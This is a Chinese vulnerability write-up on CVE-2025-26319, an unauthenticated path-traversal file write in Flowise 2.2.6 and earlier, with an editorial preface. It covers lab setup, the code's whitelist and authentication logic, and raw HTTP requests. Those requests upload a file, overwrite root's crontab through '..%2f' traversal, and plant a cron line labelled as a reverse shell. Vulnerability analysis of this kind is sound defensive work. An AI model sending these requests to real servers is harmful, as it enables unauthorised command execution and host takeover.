# CVE-2025-26319：FlowiseAI未授权任意文件写入漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

路径穿越与文件写入不自动等于主机接管。覆盖系统 cron 需要服务进程写权限与 cron 触发条件；.htaccess 仅适用于实际部署了相应 Apache 配置的环境。


### 本次正文校订

- 恢复概述原文的 CVE-2024-26319，并明确记录它与题名、元数据及补丁链接中的 CVE-2025-26319 冲突；现有主入口沿用题名记录，不将篇内一致性当作外部编号核验。
- 将混入西里尔同形字的路径恢复为源码一致的 ASCII 端点。
- 保留原作者将补丁称为“官方提供”的表述和完整链接，另注其官方身份未核；链接属于 dorattias/CVE-2025-26319 仓库这一点不能单独证明官方背书。
- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 版本<=2.2.6未进入元数据
- root cron写入依赖系统权限与cron服务且会覆写原任务需说明
- 正文Node服务直接建议.htaccess缺Apache代理前提
- 鉴权描述internal标记需核验不能当凭据
- Docker镜像tag仅图片
- HTTP固定长度和行末空格需规范
- 保留源码参数chatflowId/chatId及独立实验价值

### 操作风险与资料使用

- 含计划任务、启动项或 SSH 授权文件写入：会改变后续执行或登录行为。测试前备份原文件，结束后恢复原内容、权限与属主，不覆盖生产文件。
- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 Howell  Timeline Sec   2025-06-09 10:02  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！  
  
作者：Howell@Timeline Sec   
  
本文字数：4617   
  
阅读时长：3～5mins  
  
声明：仅供学习参考使用，请勿用作违法用途，否则后果自负。  
  
  
## 0x01 简介  
  
FlowiseAI 是一款开源的低代码/无代码工具，用于快速构建基于大语言模型（LLM）的应用程序。它通过可视化拖拽组件，让用户无需或仅需少量编码就能创建聊天机器人、文档问答等应用，并支持多种大语言模型和向量数据库的集成。其核心功能包括记忆与对话、API 嵌入等，可应用于工作流自动化和文档问答等场景。FlowiseAI 支持本地、Docker 和云平台部署，完全开源免费，适合开发者和非技术用户快速搭建 AI 应用。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-26319**  

> 校订说明：上行保留归档原作者的编号；它与题名、元数据及补丁链接中的 `CVE-2025-26319` 年份不一致。现有篇内材料指向后者，但本轮未据外部公告判定归属，不能把原文冲突静默覆盖。
  
这是一个严重的系统任意文件上传漏洞，该漏洞 CVSS 评分为 9.8，属于高危漏洞。该漏洞存在于   
Flowise  
 的 /api/v1/attachments  
 中，允许未经身份验证的攻击者通过“知识上传”功能将任意文件上传到托管代理的服务器，此缺陷可能使攻击者能够通过上传恶意文件、脚本、配置文件甚至 SSH 密钥来远程控制整个服务器。  
## 0x03 影响版本  
  
Flowise  
 <= 2.2.6  
## 0x04 环境搭建  
  
操作系统：Ubuntu-22.04.5-amd64  
### 1) 直接搭建  
  
这里有一点非常重要：当在虚拟机中配置环境时，遇到物理机与虚拟机可以互相 ping 通，物理机却无法访问虚拟机搭建的环境时，记得检查防火墙，很可能是防火墙没开放这个端口。  
  
  
  
**安装 fnm**  
  
1.apt-get update  
  
  
  
2.apt-get install unzip  
  
  
  
3.curl -o- https://fnm.vercel.app/install | bash（如果要让安装好的 fnm 生效，需要执行红框中的语句，或打开新的命令行）  
  
  
  
通过 fnm 安装 node.js：fnm install 22  
  
  
  
安装 flowise：npm install -g flowise@2.2.6  
  
  
  
启动 flowise：npx flowise start  
  
  
  
访问 localhost:3000  
  
  
### 2) docker 搭建  
  
1.下载 flowise 安装包：wget https://codeload.github.com/FlowiseAI/Flowise/zip/refs/tags/flowise%402.2.6  
。  
  
2.解压安装包。  
  
3.打开文件夹中的 docker 文件夹，将里面的 .env.example  
 复制一份并改成 .env  
。  
  
  
  
4.由于官方的 docker-compose.yml  
 是默认拉取最新的镜像，所以在安装时，需要修改 image  
 参数为漏洞版本的镜像。  
  
  
  
5.最后启动：docker-compose up -d  
  
  
  
  
## 0x05 漏洞复现  
  
1.上传文件后，可以在目标机器上看到test.txt  
  
  
  
```http
POST /api/v1/attachments/test/test HTTP/1.1 
Host: yourURL  
Accept: application/json, text/plain, */*  
x-request-from: internal  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: cors  
Sec-Fetch-Dest: empty  
Referer: http://localhost:3000/apikey  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Connection: close  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Length: 213
  
------WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Disposition: form-data; name="files"; filename="test.txt"  
Content-Type: text/plain  
  
This is the content of the file.  
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
  
  
2.向定时任务中写入文件实现任意命令执行  
  
  
  
```http
POST /api/v1/attachments/..%2f..%2f..%2f..%2f..%2fusr/..%2fvar%2fspool%2fcron%2fcrontabs HTTP/1.1  
Host: yourURL  
Accept: application/json, text/plain, */*  
x-request-from: internal  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: cors  
Sec-Fetch-Dest: empty  
Referer: http://localhost:3000/apikey  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Connection: close  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Length: 657  
  
------WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Disposition: form-data; name="files"; filename="root"  
Content-Type: text/plain  
  
# do daily/weekly/monthly maintenance  
# min   hour    day     month   weekday command  
*/15    *       *       *       *       run-parts /etc/periodic/15min  
0       *       *       *       *       run-parts /etc/periodic/hourly  
0       2       *       *       *       run-parts /etc/periodic/daily  
0       3       *       *       6       run-parts /etc/periodic/weekly  
0       5       1       *       *       run-parts /etc/periodic/monthly  
* * * * * echo "a" >> /tmp/test.txt  
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
  
  
  
  
3.反弹 shell  
  
  
  
```http
POST /api/v1/attachments/..%2f..%2f..%2f..%2f..%2fetc/./ HTTP/1.1  
Host: yourURL  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Length: 219  
  
------WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Disposition: form-data; name="files"; filename="crontab"  
Content-Type: text/plain  

*/1 * * * * root bash -c "your shell"

------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
  
## 0x06 漏洞分析  
### 1) API 白名单机制  
  
在 Flowise 平台的核心架构中，存在一个名为 constants.ts  
 的文件。这个文件中定义了一个名为 WHITELIST_URLS  
 的变量，它包含了一系列无需认证即可访问的API端点。这种设计的目的是为了方便实现一些特定功能，例如API密钥验证、公共聊天流和文件操作等。这些功能不需要用户进行身份认证就可以运行，从而提升了用户体验和系统的灵活性。  
  
  
### 2) 鉴权流程  
  
当服务器接收到HTTP请求时，会按照严格的逻辑进行鉴权：首先检查请求路径是否包含 /api/v1  
 前缀（不区分大小写），接着进行大小写敏感的路径验证；然后判断该URL是否在白名单 WHITELIST_URLS  
 中，如果在白名单内，就继续处理请求；如果不在白名单内，再检查请求头中是否有 internal  
 标记，或者验证API密钥，只有通过这些检查后，请求才会被允许继续处理  
  
